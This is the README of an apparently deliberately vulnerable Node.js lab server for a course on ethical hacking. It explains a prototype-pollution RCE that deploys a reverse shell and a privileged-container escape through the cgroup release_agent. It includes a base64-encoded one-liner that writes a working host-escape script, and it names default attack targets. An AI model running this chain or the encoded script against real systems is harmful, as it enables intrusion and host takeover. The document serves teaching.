

# Cure51 Project Tracker

A vulnerable Node.JS web server set up for the Ethical
Hacking module under Ngee Ann Polytechnic's
Diploma in Cybersecurity & Digital Forensics
second year curriculum.

## Setup Instructions

1. Clone the repository
2. Install Docker
3. Create a SSL certificate at [ZeroSSL](https://zerossl.com/)
4. Create a folder called `keys` and place the SSL certificates there
5. Build the container using `docker build -t cure51 .`
6. Run the container with `docker run -p 443:443 cure51`

The folder structure should look similar to this:



## Exploit Chain

This web server is meant to be vulnerable to 2 exploits,
a prototype pollution and a Docker container escape
if run on `Ubuntu 20.04 LTS` and with the
`--privileged` flag enabled on the container.

The `exploit.py` script runs the initial RCE using
prototype pollution to deploy a reverse shell
connection to a specified IP and port.

`exploit.py` takes in 3 optional arguments:

1. `-u` - The URL of the vulnerable web server, defaults to `https://98.70.122.164`
2. `-i` - The IP of the reverse shell, defaults to the IP of Ngrok's Asia Pacific IP
3. `-p` - The port of the reverse shell (required)

After gaining a remote connection, you can deploy the
`escape.sh` script using this command:

```bash
echo IyEvYmluL3NoCnJhbmRvbV9uYW1lPSQoZGF0ZSArJXMgfCBtZDVzdW0gfCBjdXQgLWMxLTEwKQoKbWtkaXIgLXAgL3RtcC9jZ3JwIAoKbW91bnRwb2ludCAtcSAvdG1wL2NncnAgfHwgbW91bnQgLXQgY2dyb3VwIC1vIHJkbWEgY2dyb3VwIC90bXAvY2dycAoKbWtkaXIgL3RtcC9jZ3JwLyRyYW5kb21fbmFtZQoKZWNobyAxID4gL3RtcC9jZ3JwLyRyYW5kb21fbmFtZS9ub3RpZnlfb25fcmVsZWFzZQpob3N0X3BhdGg9YHNlZCAtbiAncy8uKlxwZXJkaXI9XChbXixdKlwpLiovXDEvcCcgL2V0Yy9tdGFiYAplY2hvICIkaG9zdF9wYXRoL2NtZCIgPiAvdG1wL2NncnAvcmVsZWFzZV9hZ2VudAoKZWNobyAnIyEvYmluL3NoJyA+IC9jbWQKZWNobyAiJDEgPiAkaG9zdF9wYXRoL291dHB1dCIgPj4gL2NtZApjaG1vZCBhK3ggL2NtZAoKc2ggLWMgImVjaG8gXCRcJCA+IC90bXAvY2dycC8kcmFuZG9tX25hbWUvY2dyb3VwLnByb2NzIgpzbGVlcCAxCmhlYWQgL291dHB1dA== | base64 -d > escape.sh
```

The `escape.sh` script is used to run commands on the
host machine using `sh escape.sh <command>`

## Technical Details - Prototype Pollution

This is a Node.JS web server that uses Express.JS to
simulate a project tracker for a fictional company
named Cure51. It uses Node.JS version 12 which happens
to contain [this](https://github.com/nodejs/node/blob/02aa8c22c26220e16616a88370d111c0229efe5e/lib/child_process.js#L138)
line of code in it's `fork` function.

```js
options = { ...options, shell: false };
```

The server takes in the user's input in JSON format
and parses it with BodyParser's JSON parser. The
server then merges **all** the properties with an
empty object, giving rise to a prototype pollution
vulnerability.

The code calls `fork`, which contains the line of code
shown above. When combined with the prototype pollution
vulnerability, it allows an attacker to achieve RCE on
the webserver by overwriting special variables that
allow for arbitrary code execution. Refer to
[this](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce)
guide and a Google search on prototype pollution
vulnerabilities for a more detailed explanation.

## Technical Details - Docker Escape

This web server is deployed on an `Ubuntu 20.04 LTS`
machine, which uses cgroups v1. When a container is
run with a `--privileged` flag, it has access to all
the mounts on the host system, including the
cgroups mount.

(I don't fully understand how this part of the exploit
works, but I'll try my best to explain it.)

cgroups has a special file named `release_agent`,
where if a file named `notify_on_release` is set
(i.e. has a value of `1`), the commands inside
the `release_agent` file will be run when the "task"
ends. As `--privileged` gives us access to the
cgroups mount, we can set the `release_agent` file
on the host.

In order to save space on the host machine,
Docker might make use of a overlay filesystem
to store the differences between the files on a container
and the host machine. We can find that by listing
the contents of `/etc/mtab`. What this means is that
we somehow have a way to locate the container files
on the host.

By pairing these 2 things, we can write the command
to execute on the host machine to a file on the container
, locate the diff on the host machine using `/etc/mtab`,
and set the host machine's cgroup to execute that file,
allowing us to achieve code execution on the host.

This might have been a bit confusing to read, so I've
left a few helpful blog posts that helped me understand
the details behind escaping a Docker container:

1. [https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)
2. [https://0xdf.gitlab.io/2021/05/17/digging-into-cgroups.html](https://0xdf.gitlab.io/2021/05/17/digging-into-cgroups.html)
